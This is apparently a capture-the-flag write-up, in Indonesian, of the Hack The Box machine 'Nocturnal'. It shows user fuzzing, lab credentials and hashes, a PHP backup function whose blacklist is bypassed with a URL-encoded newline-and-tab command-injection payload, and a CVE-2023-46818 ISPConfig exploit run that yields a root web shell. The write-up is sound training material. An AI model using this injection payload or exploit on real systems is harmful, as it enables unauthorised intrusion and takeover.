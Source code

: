 ```yaml
---
layout: post
title: "HTB Writeup – Nocturnal"
date: 2025-04-13
image: /assets/machine/nocturnal/nocturnal.jpg
tags: [htb, linux, web]
excerpt: "CVE-2023-46818: exploit POST parameter to /admin/language_edit.php"
---
```


<center>
<img src="/assets/machine/nocturnal/nocturnal.jpg" class="img-post" />
</center>

# RECON

## Port Scan

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to Nocturnal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web

<center>
  <img src="/assets/machine/nocturnal/webnoc.jpg" class="img-post" />
</center>

Disini kita register lalu upload sembarangan file, dan lihat intercept burpsuite.

```bash
GET /view.php?username=hades&file=file.pdf HTTP/1.1
Host: nocturnal.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=3if78g1uefu5ld57otpvgst9k5
Connection: keep-alive
```

Lihat di endpoint nya. Lalu kita Fuzz untuk melihat user apa saja yang ada.


# User

```bash
$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=file.pdf' -w ../Desktop/fuzzDicts/userNameDict/user.txt -H 'Cookie: PHPSESSID=3if78g1uefu5ld57otpvgst9k5'  -fs 2985

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=2023.xlsx
 :: Wordlist         : FUZZ: /home/hadespwnme/Desktop/fuzzDicts/userNameDict/user.txt
 :: Header           : Cookie: PHPSESSID=k381a2of6lftuk6gnab5f5sapa
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2985
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 72ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 70ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 69ms]
:: Progress: [8886/8886] :: Job [1/1] :: 335 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

Kita cek satu persatu ternyata **admin** dan **tobias** tidak memiliki file, sedangkan user dengan nama **amanda** terdapat file yang bernama **privacy.odt**.

```
Dear Amanda,
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team
```

Kita bisa login ke backend menggunakan kredensial yang tersedia di surat.

Buat backup menggunakan password tadi, lalu kita bisa lihat ada **nocturnal_database.db**.

Download lalu Unzip, dan gunakan *Amanda* password.

```sql
(1,'admin','d725aeba143f575736b07e045d8ceebb');
(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
(6,'kavi','f38cde1654b39fea2bd4f72f1ae4cdda');
(7,'e0Al5','101ad4543a96a7fd84908fd0d802e7db');
```

Crack hash tobias (karena tadi kita sudah tahu ada user apa saja, jadi coba terlebih dahulu, atau bisa gunakan md5 crack untuk langsung crack semua hash) diatas menggunakan *john*.

Login ssh dengan kredensial yang sudah kita dapat. Dan **Get The User Flag**.


## After Update

Setelah update, file database gak ada lagi, jadi kita bisa review code **admin.php**.

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];

        $process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }

        sleep(2);

        $logContents = file_get_contents($logFile);
        if (strpos($logContents, 'zip error') === false) {
            echo "<div class='backup-success'>";
            echo "<p>Backup created successfully.</p>";
            echo "<a href='"a . htmlspecialchars($backupFile) . "' class='download-button' download>Download Backup</a>";
            echo "<h3>Output:</h3><pre>" . htmlspecialchars($logContents) . "</pre>";
            echo "</div>";
        } else {
            echo "<div class='error-message'>Error creating the backup.</div>";
        }

        unlink($logFile);
    }
}
?>
```

Dan kita bisa gunakan bypass dengan teknik url encoding.

```
POST /admin.php?view=dashboard.php HTTP/1.1
Host: nocturnal.htb
Content-Length: 108
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://nocturnal.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://nocturnal.htb/admin.php?view=dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=eijjmosqk4m5ggpfg3fa7uosru
Connection: keep-alive

password=%0Abash%09-c%09"whoami"%0A&backup=
```

Dari sini kita bisa upload *revshell* dan mendapatkan file database.

# Root

Cek port yang terbuka.

```bash
tobias@nocturnal:~$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                  
```

Terdapat port 8080 yang dapat kita tunnel.

Dan kita mendapatkan ISPConfig service.

<center>
  <img src="/assets/machine/nocturnal/ispconfig.png" class="img-post" />
</center>

## CVE-2023-46818

Kita bisa login menggunakan kredensial Tobias. Di panel *Help* kita bisa tau kalau versinya adalah **3.2**.

Setelah mencari kita dapat menggunakan POC [CVE-2023-46818](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

```bash
$ python3 exploit.py http://127.0.0.1:8080 admin slowmotionapocalypse

[+] Logging in as 'admin'
[+] Login successful.
[+] Injecting PHP shell...
[+] Shell dropped at 'sh.php'
[+] Web shell ready. Type commands below. Ctrl+C or 'exit' to quit.

ispconfig-shell# id
uid=0(root) gid=0(root) groups=0(root)
```

Rooted